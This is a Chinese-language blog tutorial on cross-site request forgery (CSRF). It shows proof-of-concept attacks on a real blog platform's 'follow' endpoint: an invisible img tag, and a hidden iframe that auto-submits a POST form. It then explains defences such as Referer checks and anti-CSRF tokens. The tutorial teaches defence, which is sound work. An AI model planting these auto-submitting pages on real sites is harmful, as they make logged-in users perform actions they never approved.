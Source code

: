 # Web安全之CSRF攻击

**CSRF是什么？**

CSRF（Cross Site Request Forgery），中文是跨站点请求伪造。CSRF攻击者在用户已经登录目标网站之后，诱使用户访问一个攻击页面，利用目标网站对用户的信任，以用户身份在攻击页面对目标网站发起伪造用户操作的请求，达到攻击目的。

**举个例子**

**简单版：**

假如博客园有个加关注的GET接口，blogUserGuid参数很明显是关注人Id，如下：

```
http://www.cnblogs.com/mvc/Follow/FollowBlogger.aspx?blogUserGuid=4e8c33d0-77fe-df11-ac81-842b2b196315
```

那我只需要在我的一篇博文内容里面写一个img标签：

```
<img style="width:0;" src="http://www.cnblogs.com/mvc/Follow/FollowBlogger.aspx?blogUserGuid=4e8c33d0-77fe-df11-ac81-842b2b196315"   />
```

那么只要有人打开我这篇博文，那就会自动关注我。

**升级版：**

假如博客园还是有个加关注的接口，不过已经限制了只获取POST请求的数据。这个时候就做一个第三方的页面，但里面包含form提交代码，然后通过QQ、邮箱等社交工具传播，诱惑用户去打开，那打开过博客园的用户就中招了。

在说例子之前要纠正一个iframe问题，有人会直接在第三方页面这样写。如下：

[![复制代码](https://common.cnblogs.com/images/copycode.gif)](javascript:void(0);)

```
<!DOCTYPE HTML>
<html lang="en-US">
<head>
<title>CSRF SHOW</title>
</head>
     <body>
          <!--不嵌iframe会跳转-->
          <iframe style="display:none;">
               <form  name="form1" action="http://www.cnblogs.com/mvc/Follow/FollowBlogger.aspx" method="post">
                    <input type="hidden" name="blogUserGuid" value="4e8c33d0-77fe-df11-ac81-842b2b196315"/>
                    <input type="submit" value>
               </form>
               <script>
                    document.forms.form1.submit();
               </script>
          </iframe>
     </body>
</html>
```

[![复制代码](https://common.cnblogs.com/images/copycode.gif)](javascript:void(0);)

这样是用问题的，由于同源策略的原因，iframe内容根本加载不出来，所以里面form提交当然不会执行。

PS：我尝试了chrome、IE11、Firefox，情况都是这样。

所以可以用嵌多一层页面方式解决，如下：

第一个展示页面（test）:

[![复制代码](https://common.cnblogs.com/images/copycode.gif)](javascript:void(0);)

```
<!DOCTYPE HTML>
<html lang="en-US">
<head>
<title>CSRF SHOW</title>
</head>
     <body>
          <iframe style="display:none;" src="test2.html"></iframe>
     </body>
</html>
```

[![复制代码](https://common.cnblogs.com/images/copycode.gif)](javascript:void(0);)

第二个隐藏页面（test2）:

[![复制代码](https://common.cnblogs.com/images/copycode.gif)](javascript:void(0);)

```
<!DOCTYPE HTML>
<html lang="en-US">
<head>
<title>CSRF GET</title>
<body>
     <form  name="form1" action="http://www.cnblogs.com/mvc/Follow/FollowBlogger.aspx" method="post">
          <input type="hidden" name="blogUserGuid" value="4e8c33d0-77fe-df11-ac81-842b2b196315"/>
          <input type="submit" value>
     </form>
     <script>
          document.forms.form1.submit();
     </script>
</body>
</html>
```

[![复制代码](https://common.cnblogs.com/images/copycode.gif)](javascript:void(0);)

这样就可以解决了，有人会问为什么要加多一层iframe，因为不嵌iframe页面会重定向，这样就降低了攻击的隐蔽性。另外我们test页面不使用XMLHTTPRequest发送POST请求，是因为有跨域的问题，而form可以跨域post数据。

**进阶版：**

假如博客园还是有个加关注的接口，已经限制POST，但博文内容是直接贴进HTML（未过滤），那就遭受XSS攻击。那么就可以直接把上面代码嵌入博文，那么只要有人打开我这篇博文，还是会自动关注我，这组合攻击方式称为XSRF。

**CSRF攻击的本质原因**

CSRF攻击是源于Web的隐式身份验证机制！Web的身份验证机制虽然可以保证一个请求是来自于某个用户的浏览器，但却无法保证该请求是用户批准发送的。CSRF攻击的一般是由服务端解决。

**CSRF工具的防御手段**

**1. 尽量使用POST，限制GET**

GET接口太容易被拿来做CSRF攻击，看第一个示例就知道，只要构造一个img标签，而img标签又是不能过滤的数据。接口最好限制为POST使用，GET则无效，降低攻击风险。

当然POST并不是万无一失，攻击者只要构造一个form就可以，但需要在第三方页面做，这样就增加暴露的可能性。

**2. 浏览器Cookie策略**

IE6、7、8、Safari会默认拦截第三方本地Cookie（Third-party Cookie）的发送。但是Firefox2、3、Opera、Chrome、Android等不会拦截，所以通过浏览器Cookie策略来防御CSRF攻击不靠谱，只能说是降低了风险。

PS：Cookie分为两种，Session Cookie（在浏览器关闭后，就会失效，保存到内存里），Third-party Cookie（即只有到了Exprie时间后才会失效的Cookie，这种Cookie会保存到本地）。

PS：另外如果网站返回HTTP头包含P3P Header，那么将允许浏览器发送第三方Cookie。

**3. 加验证码**

验证码，强制用户必须与应用进行交互，才能完成最终请求。在通常情况下，验证码能很好遏制CSRF攻击。但是出于用户体验考虑，网站不能给所有的操作都加上验证码。因此验证码只能作为一种辅助手段，不能作为主要解决方案。

**4. Referer Check**

Referer Check在Web最常见的应用就是“防止图片盗链”。同理，Referer Check也可以被用于检查请求是否来自合法的“源”（Referer值是否是指定页面，或者网站的域），如果都不是，那么就极可能是CSRF攻击。

但是因为服务器并不是什么时候都能取到Referer，所以也无法作为CSRF防御的主要手段。但是用Referer Check来监控CSRF攻击的发生，倒是一种可行的方法。

**5. Anti CSRF Token**

现在业界对CSRF的防御，一致的做法是使用一个Token（Anti CSRF Token）。

例子：

\1. 用户访问某个表单页面。

\2. 服务端生成一个Token，放在用户的Session中，或者浏览器的Cookie中。

\3. 在页面表单附带上Token参数。

\4. 用户提交请求后， 服务端验证表单中的Token是否与用户Session（或Cookies）中的Token一致，一致为合法请求，不是则非法请求。

这个Token的值必须是随机的，不可预测的。由于Token的存在，攻击者无法再构造一个带有合法Token的请求实施CSRF攻击。另外使用Token时应注意Token的保密性，尽量把敏感操作由GET改为POST，以form或AJAX形式提交，避免Token泄露。

注意：

CSRF的Token仅仅用于对抗CSRF攻击。当网站同时存在XSS漏洞时候，那这个方案也是空谈。所以XSS带来的问题，应该使用XSS的防御方案予以解决。

**总结**

CSRF攻击是攻击者利用用户的身份操作用户帐户的一种攻击方式，通常使用Anti CSRF Token来防御CSRF攻击，同时要注意Token的保密性和随机性。